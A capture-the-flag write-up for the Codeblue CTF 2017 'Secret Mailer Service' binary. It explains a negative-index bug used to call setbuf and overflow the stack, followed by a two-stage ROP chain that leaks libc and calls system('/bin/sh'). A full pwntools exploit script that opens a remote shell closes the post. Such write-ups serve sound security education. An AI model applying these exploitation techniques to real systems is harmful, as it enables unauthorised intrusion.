 ```yaml
---
layout: post
title: Codeblue CTF 2017 - Secret Mailer Service
categories: ctf_codeblue2017
keywords: "pwn rop overflow setbuf"
comments: true
authors:
    - dp1
---
```



<script type="text/javascript" async
  src="https://cdn.rawgit.com/mathjax/MathJax/2.7.1/MathJax.js?config=TeX-MML-AM_CHTML">
</script>
<script type="text/x-mathjax-config">
MathJax.Hub.Config({
  TeX: { equationNumbers: { autoNumber: "AMS" } },
  tex2jax: {
    inlineMath: [['$','$'], ['\\(','\\)']],
    processEscapes: true
  }
});
</script>

For this challenge we're given the binary of a service, `mailer`. There are 5 letters allocated on the stack which we can work on, and every time a letter is referenced the code checks if the index is valid - no exploits there. The service allows us to write, delete and post letters, where posting a letter really means writing out its contents to `/dev/null` with the ability to use a filter. It's in the filter selection that we find our vulnerability:

```cpp
int post_letter(Letter *letters, FILE *s)
{
    int v3;
    int v4;

    puts("\nWhich letter do you want to post?");
    printf("ID (0-%d): ", 4);
    v4 = read_number();
    if ( v4 < 0 || v4 > 4 || !letters[v4].present )
        return puts("Invalid ID.");
    puts("\nWhich filter do you want to apply?");
    filter_menu();
    v3 = read_number();
    if ( v3 > 2 )
        return puts("Invalid filter.");
    filters[v3](s, letters[v4].data, letters[v4].length);
    return puts("\nDone!");
}
```

The filter id is only checked to be <= 2 and not >= 0. This allows us to input a negative number in there and, since the filters are implemented as a lookup table of function addresses, we can basically call whatever function we want, as long as the parameters are compatible. What I did was call the setbuf entry in plt by using index -15, thus setting the data of one of the filters as the buffer for `/dev/null`. The nice part here is that libc assumes this buffer to be at least 8192 bytes long, so by posting other letters we can overflow it.

Let's have a quick look at how a letter is saved in memory:

```cpp
00000000 Letter          struc ; (sizeof=0x108, mappedto_5)
00000000 present         dd ?
00000004 length          dd ?
00000008 data            db 256 dup(?)
00000108 Letter          ends
```

And at the stack of the main loop (please note this is the inverted stack layout used by ida, lower addresses are on top):

```cpp
-0000053C stream          dd ?                    ; /dev/null
-00000538 var_538         dd ?
-00000534 var_534         dd ?
-00000530 data            Letter 5 dup(?)
-00000008 var_8           dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The logical thing to do now is overflow the buffer for the last letter, getting full control of the return address while leaving the other entries free for our use - remember that to overflow the buffer we have to post other letters' contents. Unfortunately, we still don't know any libc address, so that's what we're going to focus on next. I did it in a quite convoluted way, but a way I liked: I realized that we could return first to the `read_letter` function, whose role is to read a string into a buffer, and give it the address of some free memory area in order to write a format string there, and then call `printf` to leak a plt address. The end of this first step is returning back to the main loop, now knowing libc's base address.

For the second and last step, I used the same setbuf and read_letter calls, only this time providing `"/bin/sh"` instead of `"%s"` to the latter. Then the logical thing was to call `system` on the buffer, getting a shell on the remote server. A couple of commands later, I got this:
`CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}`

Hell, this one took me a long time to figure out and it was only meant to be a warmup?

---

This is the full exploit script:

```python
from pwn import *

def chunks(data, step):
	for i in range(0, len(data), step):
		yield data[i:min(i+step, len(data))]

def add_letter(r, letter):
	r.recvuntil('> ')
	r.sendline('1')
	r.recvuntil('Input your contents:')
	r.sendline(letter)

def delete_letter(r, letterid):
	r.recvuntil('> ')
	r.sendline('2')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))

def post_letter(r, letterid, filterid):
	r.recvuntil('> ')
	r.sendline('3')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))
	r.recvuntil('> ')
	r.sendline(str(filterid))


libc = ELF('./libc.so.6')

r = remote('sms.tasks.ctf.codeblue.jp', 6029)
#r = process('./mailer')


### First step: obtain libc base address

buf_addr = 0x0804B040
p = 'A' * (256 + 12)

# write the format string using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(4)

# call printf("%s", plt.atoi)
p += p32(0x080484C0)
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(0x0804B03C) # got address for atoi

# call main_loop once again
p += p32(0x08048BD0)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4');
r.recvuntil(':)')
r.sendline('%s')
r.readline()
dump = r.readline()

atoi_addr = ord(dump[0]) + (ord(dump[1]) << 8) + (ord(dump[2]) << 16) + (ord(dump[3]) << 24)
print 'Atoi addr: 0x%x' % atoi_addr
libc_addr = atoi_addr - libc.symbols['atoi']
print 'Libc base: 0x%x' % libc_addr


### Second step: call system("/bin/sh")

p = 'A' * (256 + 12)

# write /bin/sh using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(16)

# call system("/bin/sh")
p += p32(libc_addr + libc.symbols['system'])
p += p32(0x08048dab) #pop:ret
p += p32(buf_addr)

# call fail
p += p32(0x0804868B)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4')
r.recvuntil(':)')
r.sendline('/bin/sh')

r.interactive()

```
